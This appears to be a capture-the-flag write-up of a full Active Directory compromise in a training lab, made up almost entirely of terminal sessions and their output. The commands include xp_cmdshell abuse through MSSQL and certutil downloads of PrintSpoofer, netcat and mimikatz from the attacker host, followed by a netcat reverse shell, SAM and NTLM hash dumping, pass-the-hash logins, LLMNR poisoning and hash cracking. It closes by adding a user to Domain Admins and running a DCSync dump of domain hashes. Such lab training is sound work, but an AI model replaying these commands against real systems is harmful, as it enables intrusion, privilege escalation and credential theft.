#### Windows Lateral Movement 

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo crackmapexec mssql 172.16.7.60 -u netdb -p 'D@ta_bAse_adm1n!' --local-auth

[SNIP]

MSSQL       172.16.7.60     1433   SQL01            [+] netdb:D@ta_bAse_adm1n! (Pwn3d!)
```

```yaml
credentials:
    username: netdb
    password: 'D@ta_bAse_adm1n!'
    host: 172.16.7.60 (SQL01)
    port: 445 (SMB)
```

#### Windows MSSQL Enumeration

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ impacket-mssqlclient 'netdb:D@ta_bAse_adm1n!@172.16.7.60'

[SNIP]

[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
SQL>
```

```
SQL> EXEC xp_cmdshell 'whoami';
nt service\mssql$sqlexpress

SQL> SELECT SYSTEM_USER;
netdb

SQL> SELECT IS_SRVROLEMEMBER('sysadmin');
1

SQL> EXECUTE AS LOGIN = 'sa';

SQL> SELECT SYSTEM_USER;
sa

SQL> EXEC xp_cmdshell 'type c:\users\administrator\desktop\flag.txt';
Access is denied. ❌
```

#### Windows Privilege Escalation

```
SQL> EXEC xp_cmdshell 'whoami /priv';

[SNIP]

SeImpersonatePrivilege        Impersonate a client after authentication Enabled

SQL> EXEC xp_cmdshell 'systeminfo | findstr "OS"';

[SNIP]

OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763

SQL> EXEC xp_cmdshell 'certutil.exe -urlcache -f http://172.16.7.240:8000/PrintSpoofer64.exe c:\users\public\PrintSpoofer64.exe';

CertUtil: -URLCache command completed successfully.

SQL> EXEC xp_cmdshell 'certutil.exe -urlcache -f http://172.16.7.240:8000/nc.exe c:\users\public\nc.exe';

CertUtil: -URLCache command completed successfully.

SQL> EXEC xp_cmdshell 'dir c:\users\public';

[SNIP]

08/05/2025  06:58 AM            27,136 PrintSpoofer64.exe
08/05/2025  06:52 AM            28,160 nc.exe 
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ ifconfig

[SNIP]

inet 172.16.7.240  netmask 255.255.254.0  broadcast 172.16.7.255
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ nc -lvnp 1337

listening on [any] 1337 ...

[CONTINUE]
```

```
SQL> EXEC xp_cmdshell 'c:\users\public\PrintSpoofer64.exe -c "c:\users\public\nc.exe 172.16.7.240 1337 -e cmd"';
```

```
[CONTINUE]

connect to [172.16.7.240] from (UNKNOWN) [172.16.7.60] 63450
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```
C:\Windows\system32> whoami
nt authority\system
```

```
C:\Windows\system32> type c:\users\administrator\desktop\flag.txt
s3imp**************** 📌
```

#### Windows Credential Extraction

```
C:\Windows\system32> certutil.exe -urlcache -f http://172.16.7.240:8000/mimikatz.exe c:\users\public\mimikatz.exe

CertUtil: -URLCache command completed successfully.

C:\Windows\system32> c:\users\public\mimikatz.exe "token::elevate" "lsadump::sam" "exit"

[SNIP]

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: bdaffbfe64f1fc646a3353be1c2c3c99
```

#### Windows Lateral Movement

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ crackmapexec smb 172.16.7.60 -u administrator -H 'bdaffbfe64f1fc646a3353be1c2c3c99' --local-auth

[SNIP]

SMB         172.16.7.60     445    SQL01            [+] SQL01\administrator bdaffbfe64f1fc646a3353be1c2c3c99 (Pwn3d!)
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ crackmapexec smb 172.16.7.50 -u administrator -H 'bdaffbfe64f1fc646a3353be1c2c3c99' --local-auth

[SNIP]

SMB         172.16.7.50     445    MS01             [+] MS01\administrator bdaffbfe64f1fc646a3353be1c2c3c99 (Pwn3d!)
```

```yaml
credentials:
    username: administrator
    NTLM: 'bdaffbfe64f1fc646a3353be1c2c3c99'
    host: 172.16.7.60 (SQL01), 172.16.7.50 (MS01)
    port: 445 (SMB)
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ evil-winrm -i 172.16.7.50 -u administrator -H 'bdaffbfe64f1fc646a3353be1c2c3c99'

[SNIP]

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> type c:\users\administrator\desktop\flag.txt

exc3s******************* 📌
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ msfconsole -q -x 'use exploit/windows/smb/psexec; set rhosts 172.16.7.50; set; set lhost 172.16.7.240; smbuser administrator; set smbpass 00000000000000000000000000000000:bdaffbfe64f1fc646a3353be1c2c3c99; exploit;'

[SNIP]

[*] Meterpreter session 1 opened (172.16.7.240:4444 -> 172.16.7.50:49725 ) at 2025-08-05 09:14:33 -0400

meterpreter >
```

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

#### Active Directory User ACL Enumeration

```
PS C:\Windows\system32> Import-Module c:/users/public/PowerView.ps1

PS C:\Windows\system32> Get-DomainSid
S-1-5-21-3327542485-274640656-2609762496

PS C:\Windows\system32> Get-DomainObjectAcl -Identity "S-1-5-21-3327542485-274640656-2609762496-512" -ResolveGUID | ? {$_.ActiveDirectoryRights -eq 'GenericAll'}

[SNIP]

AceType               : AccessAllowed
ObjectDN              : CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3327542485-274640656-2609762496-512
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3327542485-274640656-2609762496-4611
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed

PS C:\Windows\system32> Convert-SidtoName "S-1-5-21-3327542485-274640656-2609762496-4611"
INLANEFREIGHT\CT059 📌
```

#### Windows NTLM Hash Capture and Cracking

```
PS C:\users\public> Import-Module c:/users/public/Inveigh.ps1

PS C:\users\public> Invoke-Inveigh -NBNS Y LLMNR Y -ConsoleOutput Y -FileOutput Y

[SNIP]

PS C:\users\public> type c:/users/public/Inveigh-NTLMv2.txt

CT059::INLANEFREIGHT:0809FF35E939B8F4:7AF935E65F11F067FF09A804BF4B6BFE:01010000000000005043BDDF0D06DC0158A90D417FFD20510000000002001A0049004E004C0041004E0045004600520045004900470048005400010008004D005300300031000400260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C00030030004D005300300031002E0049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C000500260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C00070008005043BDDF0D06DC01060004000200000008003000300000000000000000000000002000003E7252170E177A44AF504A45CD75C46030462CE620E050F507DBCA019091D36A0A001000000000000000000000000000000000000900200063006900660073002F003100370032002E00310036002E0037002E0035003000000000000000000000000000
```

```
┌──(nabla㉿kali)-[~]
└─$ hashcat -m 5600 CT059.hash /usr/share/wordlists/rockyou.txt

[SNIP]

CT059::INLANEFREIGHT:0809ff35e939b8f4:7af935e65f11f067ff09a804bf4b6bfe:01010000000000005043bddf0d06dc0158a90d417ffd20510000000002001a0049004e004c0041004e0045004600520045004900470048005400010008004d005300300031000400260049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c00030030004d005300300031002e0049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c000500260049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c00070008005043bddf0d06dc01060004000200000008003000300000000000000000000000002000003e7252170e177a44af504a45cd75c46030462ce620e050f507dbca019091d36a0a001000000000000000000000000000000000000900200063006900660073002f003100370032002e00310036002e0037002e0035003000000000000000000000000000:charlie1 📌

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
```

#### Windows Lateral Movement 

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ crackmapexec rdp 172.16.7.50 -u CT059 -p 'charlie1'

[SNIP]

RDP         172.16.7.50     3389   MS01             [+] INLANEFREIGHT.LOCAL\CT059:charlie1 (Pwn3d!)
```

```yaml
credentials:
    username: INLANEFREIGHT.LOCAL\CT059
    password: 'charlie1'
    host: 172.16.7.50 (MS01)
    port: 3389 (RDP)
```

```
┌──(nabla㉿kali)-[~]
└─$ tail -2 /etc/proxychains.conf

socks4 	127.0.0.1 9050
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh htb-student@10.129.110.45 -D 9050
```

```
┌──(nabla㉿kali)-[~]
└─$ proxychains xfreerdp /v:172.16.7.50 /u:CT059 /p:'charlie1' /dynamic-resolution
```

#### Windows Privilege Escalation

```
PS C:\Users\CT059> net group 'Domain Admins' CT059 /add /domain

The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

The command completed successfully.
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ crackmapexec smb 172.16.7.3 -u CT059 -p 'charlie1'

[SNIP]

SMB         172.16.7.3      445    DC01             [+] INLANEFREIGHT.LOCAL\CT059:charlie1 (Pwn3d!)
```

```yaml
credentials:
    username: INLANEFREIGHT.LOCAL\CT059
    password: 'charlie1'
    host: 172.16.7.3 (DC01)
    port: 445 (SMB)
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ crackmapexec smb 172.16.7.3 -u CT059 -p 'charlie1' -x 'type c:\users\administrator\desktop\flag.txt'

[SNIP]

SMB         172.16.7.3      445    DC01             [+] Executed command 
SMB         172.16.7.3      445    DC01             acLs_************ 📌
```

#### Active Directory DCSync Attack

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ impacket-secretsdump 'INLANEFREIGHT.LOCAL/CT059:charlie1@172.16.7.3' -just-dc-ntlm

[SNIP]

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:234a798328eb83fda24119597ffba70b:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7eba70412d81c1cd030d72a3e8dbe05f::: 📌
```

---
---
